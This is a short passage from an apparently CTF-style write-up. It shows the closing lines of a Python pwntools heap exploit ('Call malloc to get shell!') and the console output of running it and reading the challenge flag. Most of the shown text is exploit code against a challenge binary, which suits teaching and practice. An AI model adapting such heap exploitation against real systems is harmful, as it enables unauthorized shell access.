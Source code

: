 ```python
        count = int("0x"+hex(mov_count)[-2:], 16)
    smite(0, 6, 0)
    smite(0, 7, 0)

    #Call malloc to get shell!
    add(0)
    
    io.interactive()
```

## Flag

```console
d4rk_kn1gh7 @ BatMobile  python exp.py
$ cat flag.txt
actf{thatll_shut_the_freshmen_up}
```
